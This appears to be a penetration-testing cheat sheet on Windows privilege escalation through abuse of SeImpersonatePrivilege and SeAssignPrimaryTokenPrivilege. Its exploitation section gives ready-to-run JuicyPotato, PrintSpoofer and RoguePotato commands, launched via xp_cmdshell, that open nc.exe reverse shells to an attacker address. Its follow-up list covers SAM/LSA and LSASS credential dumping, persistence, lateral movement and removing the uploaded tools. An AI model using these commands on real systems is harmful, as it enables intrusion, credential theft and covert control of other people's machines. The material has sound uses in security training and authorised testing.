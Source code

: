 ### Technique Name:

SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege
### Summary:

These privileges allow a process to impersonate the access token of another user or assign a primary token to a process. While normally used for legitimate tasks (like services impersonating users), attackers exploit them to gain **SYSTEM privileges** by triggering interactions with privileged services (via named pipes or DCOM) and hijacking their tokens. Common exploits include JuicyPotato, RoguePotato, and PrintSpoofer.
### Conditions:

- `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` must be assigned and enabled
- Access to run commands as the impersonating account (e.g., through web shells, MSSQL xp_cmdshell, or service access)
- Works best when the current process runs as a **service account**, often achieved via MSSQL, Jenkins, web shells, etc.
- JuicyPotato works on systems ≤ Windows Server 2016; for later versions use PrintSpoofer or RoguePotato
### Enumeration:

```powershell
# Check privilege assignment
whoami /priv

# Common outputs to look for
# SeImpersonatePrivilege -> Enabled
# SeAssignPrimaryTokenPrivilege -> Enabled

# Confirm current user context
whoami

# Confirm service account context (e.g., MSSQL, IIS)
xp_cmdshell whoami
```
### Exploitation:

```powershell
# 1. JuicyPotato (Windows Server 2016 and below)
xp_cmdshell "c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a \"/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe\" -t *"

# 2. PrintSpoofer (Server 2019, Windows 10 1809+)
xp_cmdshell "c:\tools\PrintSpoofer.exe -c \"c:\tools\nc.exe 10.10.14.3 8443 -e cmd\""

# 3. RoguePotato (alternative method if PrintSpoofer fails)
# (example command varies depending on version, target IP, and port)
.\RoguePotato.exe -r <attacker_ip> -e cmd.exe -l 9999
```
### Post-Exploitation:

* SYSTEM access can now be used to:
  - Dump SAM & LSA secrets
  - Install persistence (e.g., service creation)
  - Perform in-memory LSASS dumps
  - Move laterally within the domain
* Clean up uploaded tools (`JuicyPotato.exe`, `PrintSpoofer.exe`, `nc.exe`)
* Monitor for Event ID 4672 (Special Privileges Assigned)
* Consider disabling SeImpersonatePrivilege from service accounts if not necessary
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #User_Privs